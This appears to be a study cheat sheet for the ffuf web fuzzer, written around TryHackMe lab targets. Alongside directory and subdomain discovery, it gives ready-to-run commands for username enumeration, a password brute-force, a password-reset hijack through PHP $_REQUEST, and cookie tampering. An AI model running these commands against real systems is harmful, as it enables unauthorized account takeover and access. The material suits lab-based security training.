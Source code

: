 #### ==**Find directories & hidden website pages**==

ffuf is a fest web fuzzer written in Go that allows typical directory discovery, virtual host discovery (without DNS records) and GET and POST parameter fuzzing.

# Useful Commands:

```bash
ffuf -w txtfile -u url
```

```bash
ffuf -u http://IP.PARAM -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.IP.PARAM' -fs 0
```

The above command uses the **-w** switch to specify the wordlist we are going to use. The **-H** switch adds/edits a header (in this instance, the Host header), we have the **FUZZ** keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.  

Because the above command will always produce a valid result, we need to filter the output. We can do this by using the page size result with the **-fs** switch. Edit the below command replacing {size} with the most occurring size value from the previous result.  


This command has a similar syntax to the first apart from the **-fs** switch, which tells ffuf to ignore any results that are of the specified size.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP -fs {size}
```

This command is used to check usernames against any matches:

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.122.98/customers/signup -mr "username already exists"
```

|**Switch** | **Function** |  
| :-------:| :------:|
|-w|Selects the file's location on the computer that contains the list of usernames| 
|-X|Specifies the request method|
|-d|Specifies the data that we are going to send|
|-H|Add additional headers to the request|
|Content-Type|To tell the webserver we are sending form data|
|-u|Specifies the URL we are making the request to|
|-mr|The text on the page we are looking for to validate we've found a valid username|

Brute Forcing the found valid usernames:

```bash
ffuf -w names.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.122.98/customers/login -fc 200
```

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
curl -X POST 'http://10.10.122.98/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

Mock cookie http request:

```bash
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.122.98/cookie-test
```

and if server response encoded it might look like this:

`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
